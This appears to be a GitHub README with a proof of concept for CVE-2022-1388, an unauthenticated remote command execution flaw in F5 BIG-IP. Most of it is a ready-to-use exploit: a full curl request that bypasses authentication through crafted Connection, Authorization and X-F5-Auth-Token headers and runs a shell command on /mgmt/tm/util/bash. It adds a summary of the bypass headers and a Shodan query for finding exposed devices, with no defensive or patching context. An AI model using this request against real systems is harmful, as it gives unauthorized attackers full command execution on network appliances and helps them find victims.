

# CVE-2022-1388
F5 BIG-IP Unauthenticated RCE   
&nbsp;

## POC:
Use following POST request to execute ```id``` command.
```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Connection: keep-alive, X-F5-Auth-Token' -H $'Authorization: Basic YWRtaW46' -H $'X-F5-Auth-Token: a' -H $'Content-Length: 39' \
    --data-binary $'{\"command\":\"run\",\"utilCmdArgs\":\"-c id\"}' \
    $'https://IP_HERE/mgmt/tm/util/bash'
 ```
 
&nbsp;
Key Points:
```
URL: /mgmt/tm/util/bash
Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything
```
&nbsp;
## Shodan Query:
```
http.title:"BIG-IP&reg;-+Redirect" +"Server" 
```
&nbsp;

## Nuclei Template:
[CVE-2022-1388.yaml](./CVE-2022-1388.yaml)
</br>&nbsp;

## Credit
[AnnaViolet20](https://twitter.com/AnnaViolet20/status/1523564632140509184?s=20&t=dA5mPYazYHS6MuaFAaRvCw)'s tweet.</br>
[numanturle](https://github.com/numanturle/CVE-2022-1388)'s github page.
